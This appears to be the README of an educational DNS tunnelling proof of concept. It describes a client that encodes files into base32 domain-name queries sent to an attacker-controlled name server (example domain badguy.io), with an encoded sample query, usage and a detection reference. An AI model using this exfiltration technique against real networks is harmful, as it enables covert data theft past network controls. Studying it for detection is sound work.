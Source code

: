 # DNS Tunneling POC

## Introduction

This is a proof of concept for a DNS tunnelling client and server, for security education. The DNS server implemented here is woefully incomplete, as the point is not to resolve names, but to participate in file transfers. The server only handles A and AAAA queries with a single name, and responds to A queries with the same IP address (16.32.64.128), and to AAAA queries with a repsonse indicating an IPv6 address is not available, as per [RFC 4074 section 3](https://datatracker.ietf.org/doc/html/rfc4074#section-3).

## Theory of operation

The `dns_send` client can send a file or standard input to a remote name server controlled by an attacker. Each file transfer is identified by a uuid. Each poayload  of the data transfer  consists of the uuid, a packaet seqence number and 120 bytes of data. The payload is encoded in base 32, then included in a domain name.  This is an example of such a name, which encodes a UUID,. a sequence number and 120 bytes of data:, which obeys all of the rules for an Internet domain name:

```text
QLFGR3VWU5D37KJMLXJOKUKDJERQAAAANNXHIZRIEJLXE33UMUQCKZBAMJ4X.IZLTEB2G6IBFOMQGC5BAN5TGM43FOQQCKZC4NYRCYIDQMF4WY33BMQWT43DF.NZTXI2BMEBTGS3DFNZQW2ZJMBIQCAIBAEAQCAIBAOBQXS3DPMFSC2PTTMVYX.KZLOMNSSAKRAGEZDAKJ3BJ6QU.badguy.io
```

In attack scenario, an ttacker would register the badguy.io domain  (ffrom the name above), point the DNS server for the domain to a server running the  `dns-server` in this peoject, so that it could receive and decode the specially crafted DMS queries. Since each name query is unique, there is no concern with caching.

## Building

Run `make`. This will build `dns-server`  and `dns-send` io the `dist` directory.  See the `Makefile` for additional targets.

## Running

Start the server by running `dns-server`. As the server binds to provolehed port 53, it must be run as root (or sudo). 
The client usgae is as follows:

```shell
dns_send [file [ip]]
```

Without any paranmeters, the program reads from stdin, and uses the default system resolver to eventually reach the attacker DNS server , provided the `dns-send` program is modified to resolve the correct domain (and not badguy.io).

A file name can be specified as the first argument, in which case the file will be transmitted through as many DNS requests as needed.

An IP address can be specified as the second parameter, which is useful in cases where you do not want to set up a domainm and a server running `'dns-server`. In that case, you can run `dns-server` on any machine, including the same machine on which `dns-send` is running, and point `dns-send` at the server. While this is not a realistic attack scenario in most cases, it will demonstrate transmitting large amounts of data over DNS.

### Running on Linux

On systems using `systemd`, you will have to temporarily turn off the systemd resolver to free up port 53 (used by the POC server).

```shell
sudo systemctl stop systemd-resolved
```

Since the POC server really cannot resolve anything, you may want to edit `/etc/resolv.conf` to point to a real server, such as `8.8.8.8`

### Running on WSL

WSL requires Internet Connection Sharing which uses port 53. It is therefore not possible to run the server.

## Detecting DNS tunnelling
Due to nature of DNS tunneling, there are serveral methods to detect it, and thereafter prenvent it. See the [Detecting DNS Tunelling](https://www.sans.org/white-papers/34152/) paper from the SANS institute for examples.


## Dependencies

- Debian package `uuid-dev`
- Debian package `libbsd-dev` (not needed for BSD)

## Included open source code

Base32 encoder/decoder from [Google Authenticator PAM module](https://github.com/google/google-authenticator-libpam)


## References

- [TCP/IP Illustrated Volume 1, W. Richard Stevens](https://www.amazon.com/TCP-Illustrated-Vol-Addison-Wesley-Professional/dp/0201633469)
- https://courses.cs.duke.edu//fall16/compsci356/DNS/DNS-primer.pdf
- [RFC 4074](https://datatracker.ietf.org/doc/html/rfc4074#)
- [RFC1034](https://datatracker.ietf.org/doc/html/rfc1034)
